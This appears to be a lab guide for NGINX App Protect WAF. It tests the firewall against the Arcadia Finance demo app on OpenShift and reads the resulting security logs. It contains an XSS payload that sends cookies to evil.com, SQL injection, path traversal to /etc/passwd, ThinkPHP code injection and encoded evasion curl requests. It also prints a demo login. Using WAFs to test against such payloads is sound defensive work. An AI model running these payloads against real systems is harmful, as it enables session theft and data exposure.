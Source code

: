 Access the Application and test the NGINX App Protect WAF to see how it works in action
--------------------------------------------------------------------------------------- 


Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 14609283746114744748
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try**

- SQL Injection - ``GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``
- Remote File Include - ``GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``
- Command Execution - ``GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``
- HTTP Parser Attack - ``GET /?XDEBUG_SESSION_START=phpstorm``
- Predictable Resource Location Path Traversal - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``
- Cross Site Scripting - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``
- Informtion Leakage - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``
- HTTP Parser Attack Forceful Browsing - ``GET /dana-na/auth/url_default/welcome.cgi``
- Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - ``GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``
- Cross Site Scripting - ``GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


**and many more from bash script below**

        .. code-block :: bash

                #!/bin/bash
                echo "------------------------------"
                echo "Starting security testing..."
                echo "------------------------------"
                echo ""
                echo ""

                # Get the external IP address of the NGINX Ingress Controller
                EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

                echo "---------------------------------------------------------------------"
                echo "Multiple decoding"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
                echo "---------------------------------------------------------------------"

                # Send a request with multiple decoding
                curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "IIS Backslashes"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with IIS backslashes
                curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Cross site scripting"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with cross-site scripting payload
                curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"



Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD by running ``oc get pod -o wide``

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc get pod -o wide
                NAME                           READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
                pod/app2-6bd5b4fbd7-6k8hd      1/1     Running   0          18h   10.128.2.47   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/app3-5699b95596-2s927      1/1     Running   0          18h   10.131.0.19   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>
                pod/backend-79c6bcf85c-k8m2s   1/1     Running   0          18h   10.128.2.45   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/main-584fc64db4-v8jf2      1/1     Running   0          18h   10.128.2.46   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
                pod/syslog-bb47bd798-2vqps     1/1     Running   0          18h   10.131.0.20   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>

#. Examine the logging matching the support ID of `436359350950` 

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc exec -it pod/syslog-bb47bd798-2vqps  -- cat /var/log/messages | grep 4363593509500748230
                Feb  8 18:53:09 my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz ASM:attack_type="SQL-Injection,Other Application Activity",blocking_exception_reason="N/A",date_time="2023-02-08 18:53:09",dest_port="80",ip_client="76.220.40.89",is_truncated="false",method="GET",policy_name="dataguard-alarm",protocol="HTTP",request_status="blocked",response_code="0",severity="Critical",sig_cves="N/A,N/A,N/A,N/A",sig_ids="200002553,200000073,200002736,200000082",sig_names="SQL-INJ integer field UNION (Parameter),SQL-INJ ""UNION SELECT"" (Parameter),SQL-INJ ' UNION SELECT (Parameter)...",sig_set_names="{SQL Injection Signatures},{SQL Injection Signatures},{SQL Injection Signatures}...",src_port="52787",sub_violations="N/A",support_id="4363593509500748230",threat_campaign_names="N/A",unit_hostname="my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz",uri="/",violation_rating="5",vs_name="78-a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com:8-/",x_forwarded_for_header_value="N/A",outcome="REJECTED",outcome_reason="SECURITY_WAF_VIOLATION",violations="Attack signature detected,Violation Rating Threat detected",json_log="{""violations"":[{""enforcementState"":{""isBlocked"":true},""violation"":{""name"":""VIOL_RATING_THREAT""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ integer field UNION (Parameter)"",""signatureId"":200002553},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""UNION SELECT\"" (Parameter)"",""signatureId"":200000073},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ ' UNION SELECT (Parameter)"",""signatureId"":200002736},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""SELECT FROM\"" (Parameter)"",""signatureId"":200000082},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}}]}",violation_details="<?xml version='1.0' encoding='UTF-8'?><BAD_MSG><violation_masks><block>410000000000c00-3a03030c30000072-8000000000000000-0</block><alarm>2477f0ffcbbd0fea-befbf35cb000007e-8000000000000000-0</alarm><learn>0-0-0-0</learn><staging>0-0-0-0</staging></violation_masks><request-violations><violation><viol_index>42</viol_index><viol_name>VIOL_ATTACK_SIGNATURE</viol_name><context>parameter</context><parameter_data><value_error/><enforcement_level>global</enforcement_level><name>aGZzYWdycw==</name><auto_detected_type>alpha-numeric</auto_detected_type><value>LTEgdW5pb24gc2VsZWN0IHVzZXIscGFzc3dvcmQgZnJvbSB1c2VycyAtLSA=</value><location>query</location><param_name_pattern>*</param_name_pattern><staging>0</staging></parameter_data><staging>0</staging><sig_data><sig_id>200002553</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>15</length></kw_data></sig_data><sig_data><sig_id>200000073</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>43</length></kw_data></sig_data><sig_data><sig_id>200002736</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>9</offset><length>14</length></kw_data></sig_data><sig_data><sig_id>200000082</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>17</offset><length>34</length></kw_data></sig_data></violation></request-violations></BAD_MSG>",bot_signature_name="N/A",bot_category="N/A",bot_anomalies="N/A",enforced_bot_anomalies="N/A",client_class="Browser",client_application="Chrome",client_application_version="109",request="GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+ HTTP/1.1\r\nHost: a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com\r\nConnection: keep-alive\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\n\r\n",transport_protocol="HTTP/1.1"
                [lab-user@bastion app-protect-waf]$

        Where ``pod/syslog-bb47bd798-2vqps`` is the name of the pod and container where the syslog server is running. ``4363593509500748230`` is the ID of the log entry that contains information about the attack you just generated.

Congratulations on completing the Lab! You have learned how to deploy the NGINX App Protect WAF in Kubernetes and how to use the NGINX App Protect WAF to protect your applications from attacks.




        